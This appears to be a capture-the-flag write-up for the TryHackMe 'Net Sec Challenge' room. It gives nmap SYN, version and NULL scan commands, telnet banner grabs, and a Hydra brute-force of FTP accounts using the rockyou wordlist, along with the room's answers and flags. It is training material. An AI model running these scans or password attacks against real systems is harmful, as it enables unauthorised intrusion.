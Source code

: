 ![Net Sec Challenge Banner](https://assets.tryhackme.com/room-banners/netsecmodule.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/netsecchallenge/Net_Sec_Challenge_Cover.png" alt="Net Sec Challenge Logo">
</p>

# Net Sec Challenge

This guide contains the answer and steps necessary to get to them for the [Net Sec Challenge](https://tryhackme.com/room/netsecchallenge) room.

### Challenge Questions

1. What is the highest port number being open less than 10,000?

   For this we can use nmap and specify the port range we want to use (1-10000).

   ```cmd
   sudo nmap -sS 10.10.223.240 -p1-10000 -sV
   ```

   ![Nmap](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/netsecchallenge/Net_Sec_Challenge_Nmap.png)

   ><details><summary>Click for answer</summary>8080</details>

3. There is an open port outside the common 1000 ports; it is above 10,000. What is it?

   For this we can use a similar command, but this time we use the remaining ports as our range.

   ```cmd
   sudo nmap -sS 10.10.223.240 -p10000-65535
   ```
   
   ![Nmap 2](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/netsecchallenge/Net_Sec_Challenge_Nmap_2.png)

   ><details><summary>Click for answer</summary>10021</details>

5. How many TCP ports are open?

   Adding both answers together we get our total number of open TCP ports.

   ><details><summary>Click for answer</summary>6</details>

6. What is the flag hidden in the HTTP server header?

   To look at the server header information we can use telnet. We should also specify the required port.

   ```cmd
   telnet 10.10.223.240 80
   ```

   ![Http Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/netsecchallenge/Net_Sec_Challenge_HTTP_Flag.png)

   ><details><summary>Click for answer</summary>THM{web_server_25352}</details>

8. What is the flag hidden in the SSH server header?

   telnet 10.10.223.240 22

   ![Ssh Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/netsecchallenge/Net_Sec_Challenge_ssh_Flag.png)

   ><details><summary>Click for answer</summary>THM{946219583339}</details>

9. We have an FTP server listening on a nonstandard port. What is the version of the FTP server?

   The ftp service isn't listed on the first nmap scan, so we should perform the second one with version info enabled (this was disabled in our scan in question 3).

   ```cmd
   sudo nmap -sS 10.10.223.240 -p10021 -sV
   ```

   ![Nmap Ftp](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/netsecchallenge/Net_Sec_Challenge_Nmap_FTP.png)

   ><details><summary>Click for answer</summary>vsftpd 3.0.3</details>

11. We learned two usernames using social engineering: eddie and quinn. What is the flag hidden in one of these two account files and accessible via FTP?

   We first create a file `touch usernames.txt` and add both usernames to it. Then we can craft our Hydra command:
   
   ```cmd
   hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ftp://10.10.223.240:10021 -t 4
   ```

   ![Hydra](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/netsecchallenge/Net_Sec_Challenge_Hydra.png)

   This gives us passwords for both accounts. Looking through the files on the FTP server, we find the flag on the account for `quinn`.
   
   ```cmd
   ftp quinn@10.10.223.240 -p 10021
   ```

   ![Ftp Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/netsecchallenge/Net_Sec_Challenge_FTP_Flag.png)

   ><details><summary>Click for answer</summary>THM{321452667098}</details>

11. Browsing to http://MACHINE_IP:8080 displays a small challenge that will give you a flag once you solve it. What is the flag?

   Visiting the weppage, we see we need to scan the machine with as little activity as possible.
   
   ![Nmap Challenge Page](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/netsecchallenge/Net_Sec_Challenge_Nmap_Challenge_Page.png)
   
   After several tries (also using the Attackbox) the most effective scan type was the NULL scann `-sN`.
   
   ```cmd
   sudo nmap -sN 10.10.223.240
   ```
   
   ![Nmap Challenge](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/netsecchallenge/Net_Sec_Challenge_Nmap_Challenge.png)

   ![Nmap Challenge Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/netsecchallenge/Net_Sec_Challenge_Nmap_Challenge_Flag.png)

   ><details><summary>Click for answer</summary>THM{f7443f99}</details>
